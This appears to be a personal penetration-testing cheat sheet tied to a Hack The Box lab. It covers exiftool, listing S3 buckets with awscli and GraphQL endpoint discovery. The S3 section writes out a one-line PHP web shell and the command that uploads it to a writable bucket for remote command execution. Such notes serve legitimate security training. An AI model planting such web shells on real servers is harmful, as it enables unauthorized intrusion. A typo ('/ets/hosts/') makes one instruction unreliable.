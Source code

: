 ```bash
exiftool [FILE]
```

## Common Application

### Amazon Buckets

The are different types of subdomains, for example `s3.` are amazon buckets subdomains on the cloud. Always add the subdomains to the `/ets/hosts/` file next to the domain..

Use `awscli` to interact with them. 

To list the buckets:
`aws --endpoint=http://s3.thetoppers.htb s3 ls`

To list the objects inside the buckets just specify the bucket at the end of the previous command:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

If php files are shown, it means that the bucket is handling the php page. Thus creating an appropriate php file and coping it in the bucket, will open a shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

### APIs

##### **Web Services (SOAP/XML)**

##### REST APIs

API with multiple endpoints

##### GraphQL

By **default** graphQL does **not** implement authentication, has a **single endpoint**.

- **Endpoint discovery:**
	```bash
	python3 ~/TOOLS/graphw00f/main.py -d -f -t [URL]
	```

  - Send an universal query (with param `'{"query":"query { __typename }"}'` to:

  	- */graphql*

  	- */graphiql*

  	- */graphql.php*

  	- */graphql/console*

  	- appending `/v1` to the path

